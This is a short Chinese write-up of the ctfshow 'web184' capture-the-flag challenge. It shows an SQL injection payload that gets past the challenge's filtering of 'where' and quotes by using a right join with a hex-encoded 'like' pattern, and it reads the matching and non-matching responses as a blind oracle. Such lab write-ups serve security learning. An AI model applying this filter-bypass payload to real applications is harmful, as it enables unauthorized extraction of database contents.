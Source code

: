 ### web184

![截图](3b8d278e14ba040456a65a6cba2b5f40.png)

相比于上一题过滤了where，所以，where判断语句就不行了，不过可以使用右连接、左连接等方式作为判断，其次‘也被过滤，所以like后就不能接字符串了，不过可以变成十六进制

```
tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0x63746673686f7725
ctfshow% ---hex--- 0x63746673686f7725
```

![截图](0d2bebfefaa12df085867c540147d564.png)

此时返回的是右表加左表匹配到的内容

当不匹配时

![截图](4b15c77be3d01f4ae945b7f32746c039.png)

